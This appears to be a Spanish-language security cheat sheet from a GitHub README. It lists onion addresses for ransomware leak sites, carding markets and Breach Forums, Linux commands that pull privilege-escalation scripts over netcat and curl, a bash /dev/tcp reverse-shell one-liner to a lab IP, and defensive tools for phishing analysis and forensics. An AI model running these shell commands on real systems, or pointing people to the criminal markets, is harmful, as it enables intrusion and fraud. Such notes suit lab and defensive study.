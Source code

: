 # ***I. Dark Web***

## 1.1.Wiki

   - The Hidden Wiki
      ```bash
      http[:]//zqktlwiuavvvqqt4ybvgvi7tyo4hjl5xgfuvpdf6otjiycgwqbym2qad[.]onion/wiki/Main_Page
      ```
   - OnionLinks
      ```bash
      http[:]//jaz45aabn5vkemy4jkg4mi4syheisqn2wn2n4fsuitpccdackjwxplad[.]onion/
      ```

## 1.2.Ransomware Group

   - Ransomware Group Sites
      ```bash
      http[:]//ransomwr3tsydeii4q43vazm7wofla5ujdajquitomtd47cxjtfgwyyd[.]onion/
      ```
   - RansomHub
      ```bash
      http[:]//ransomxifxwc5eteopdobynonjctkxxvap77yqifu2emfbecgbqdw6qd[.]onion//#ShootingHouse
      ```
   - INC Ransom
      ```bash
      incblog7vmuq7rktic73r4ha4j757m3ptym37tyvifzp2roedyyzzxid[.]onion/blog/leaks
      ```
   - Rhysida
      ```bash
      rhysidafohrhyy2aszi7bm32tnjat5xri65fopcxkdfxhi4tidsg7cad[.]onion  / http[:]//rhysidafc6lm7qa2mkiukbezh7zuth3i4wof4mh2audkymscjm6yegad[.]onion/
      ```
   - Lockbit 3 (blog)
      ```bash
      http[:]//lockbit3753ekiocyo5epmpy6klmejchjtzddoekjlnt6mu3qh4de2id[.]onion/
      ```
   - Everest
      ```bash
      http[:]//ransomocmou6mnbquqz44ewosbkjk3o5qjsl3orawojexfook2j7esad[.]onion/
      ```
   - RansomEXX
      ```bash
      http[:]//rnsm777cdsjrsdlbs4v5qoeppu3px6sb2igmh53jzrx7ipcrbjz5b2ad[.]onion/
      ``` 

## 1.3.Otros
   
   - Black Market CC
      ```bash
      http[:]//imjxsmcdedgtljeqip5vmqjepruvlip2xstuos5phwsrp3ka3znzn2ad[.]onion/
      ```
   - CARDS
      ```bash
      http[:]//nalr2uqsave7y2r235am5jsfiklfjh5h4jc5nztu3rzvmhklwt5j6kid[.]onion/list.html
      ```
   Black Hat Chat
      ```bash
      http[:]//blkhatjxlrvc5aevqzz5t6kxldayog6jlx5h7glnu44euzongl4fh5ad[.]onion/
      ```
   Facebook
      ```bash
      http[:]//4wbwa6vcpvcr3vvf4qkhppgy56urmjcj2vagu2iqgp3z656xcmfdbiqd[.]onion/
      ```
   Massive List Onion Service
      ```bash
      http[:]//darknetlidvrsli6iso7my54rjayjursyw637aypb6qambkoepmyq2yd[.]onion/onions
      ```
## 1.4.Breach Forums
   - ```bash
      https://breachforums.st/member.php
      ```
   - ```bash
      breached26tezcofqla4adzyn22notfqwcac7gpbrleg4usehljwkgqd[.]onion
      ```

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# ***II. Linux: Comandos mas usados***

## 2.1. Para trasnferir archivos usando nc

   - Ejecutar en el host donde va a pasar los archivos
      ```bash
      nc -l -p 1234 > LinEnum.sh 
      ```
   - Ejecutar host donde estan los archvios
      ```bash
      cat /home/user/tools/privesc-scripts/LinEnum.sh | nc 10.9.2.251 1234
      ```      
## 2.2. Para trasnferir archivos usando python3 y wget o curl

   - Ejetuar en donde estan los archivos
      ```bash
      python3 -m http.server 8080 
      ```
   - Ejecutar en donde descargar los archivos
      ```bash
      wget http://10.9.2.251:8080/lse.sh -O /home/sn0w/lse.sh
      curl -o /home/sn0w/lse.sh http://10.9.2.251:8080/lse.sh 
      ```
## 2.3. FIND

   - Para buscar archivos
      ```bash
      find -name passwords.txt
      find -name *.txt 
      ```
## 2.4. NETCAT

   - Poner en escucha con netcat
      ```bash
      nc -nlvp 4444 
      ```
## 2.5. REVERSE SHELL TCP

   - Crear una reverse shell TCP
      ```bash
      /bin/bash -c 'bash -i >& /dev/tcp/10.9.2.251/4444 0>&1'
      ```
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# ***III. Tools***

## 3.1. Herramientas Phishing:
Email Header Analyzer - https://mxtoolbox.com/EmailHeaders.aspx
Message Header Analyzer - https://mha.azurewebsites.net/
iplocation.io - https://iplocation.io/
iplocation.net - https://iplocation.net/
IP Geolocation - https://ipinfo.io/products/ip-geolocation-api
CyberChef - https://gchq.github.io/CyberChef/
- From Base64
- From HTML Entity (desofuscar codigo HTML)
- CSS Beautify
- Defang IP Addresses
- Defang URL
Base64Guru: https://base64.guru/
CSS Beautify - https://www.cleancss.com/css-beautify/
JavaScriot Beautifier - https://beautifier.io/
ANY.RUN: https://any.run/
ANY.RUN THEATH INTELLIGENCE Lookup: https://intelligence.any.run/?utm_source=csn&utm_medium=article&utm_campaign=phishing_attacks&utm_content=ti_lookup&utm_term=051224
have i been pwned? - https://haveibeenpwned.com/
PhishTool - https://app.phishtool.com/sign-up/community
VirtusTotal - https://www.virustotal.com/gui/home/upload
Email Reputation - https://emailrep.io/
InQuest Indicator Lookup - https://labs.inquest.net/ (clic en INDICATOR OOKUP)

## 3.2. Malware:
MalwareBazaar - https://bazaar.abuse.ch/browse/

## 3.3. Auditoria de contraseñas:
Specops Password Auditor - https://specopssoft.com/product/specops-password-auditor/
Enzoic Active Directory Lite - https://www.enzoic.com/active-directory-lite/

## 3.4. Forense:
Volatility 3 - https://github.com/volatilityfoundation/volatility3
Autopsy - https://www.autopsy.com/download/
FTK Imager - https://www.exterro.com/digital-forensics-software/ftk-imager

## 3.5. Auditoria a SGBD:
Imperva - Scuba Database Vulnerability Scanner https://www.imperva.com/resources/free-cyber-security-testing-tools/scuba-database-vulnerability-scanner/
Calssifier Impeerva: https://www.imperva.com/resources/free-cyber-security-testing-tools/imperva-classifier-data-classification-tool/





   



